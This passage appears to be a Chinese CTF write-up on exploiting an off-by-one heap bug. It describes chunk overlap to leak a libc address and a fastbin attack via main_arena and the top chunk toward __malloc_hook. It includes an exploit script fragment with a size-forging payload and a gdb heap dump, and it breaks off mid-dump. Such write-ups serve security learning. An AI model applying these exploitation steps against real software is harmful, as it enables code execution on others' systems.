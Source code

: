 **学习过程中，参考了以下博文:**

https://blog.csdn.net/qq_33528164/article/details/79951156   这篇我觉得泄露地址的方法最简便，但是最后无法getshell，我的exp是在他的基础下写的。

https://www.jianshu.com/p/959d4b7b5af1

https://www.jianshu.com/p/95b30d754577

**基本利用思路：**

1. 利用了offbyone，修改处于inuse状态的chunk的size，造成chunk overlap来泄露地址，注意free的时候会检查下一个chunk的size的prev_inuse位是否为1.然后通过fastbin attack完成攻击。
2. 由于__malloc_hook附近没有可用的fake_size。上述的博文的利用思路是利用fastbin attack先将chunk分配到main_arena里.方法是利用chunk overlap，将处于fastbin的chunk的fd修改为0x61,再malloc一个size为0x60的chunk，这时fastbin里的内容就会变成0x61，这样就可以使用fastbin attack，将堆分配到main_arena.
3. 然后修改top_chunk到__malloc_hook附近。再次申请chunk即可得到malloc_hook附近的chunk。但是利用过程出现了很多上述博文没有出现的问题。一步一步的调试最终解决问题。下面记录调试过程。

**详细调试过程：**

复现环境：ubuntu 16.04

1. 泄露地址：

泄露地址和修改top chunk都很顺利，但后面会出现很多问题。

```
alloc(0x48) #0
alloc(0x48) #1
alloc(0x48) #2
alloc(0x48) #3 ；防止被top chunk合并
update(0, 0x49, "A"*0x48 + "\xa1") #修改chunk1的size为0xa1
delete(1)   #1 ；free chunk1，chunk1被放入unsorted bin中
alloc(0x48) #1 ；再malloc 一个0x50大小的chunk，那么chunk1被切割，剩余部分放入unsorted bin，被写入地址。即chunk2的userdata部分被写入&main_arena+88
view(2)     #    泄露地址
p.recvuntil("Chunk[2]: ")
leak = u64(p.recv(8))
libc_base = leak - 0x58-libc.symbols["__malloc_hook"]-0x10
```
连续申请4个chunk后的heap布局如下：
```
0x555555757000 FASTBIN {  #chunk0
  prev_size = 0, 
  size = 81, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
0x555555757050 FASTBIN {  #chunk1
  prev_size = 0, 
  size = 81, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
0x5555557570a0 FASTBIN {  #chunk2
  prev_size = 0, 
  size = 81, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
0x5555557570f0 FASTBIN { #chunk3
  prev_size = 0, 
```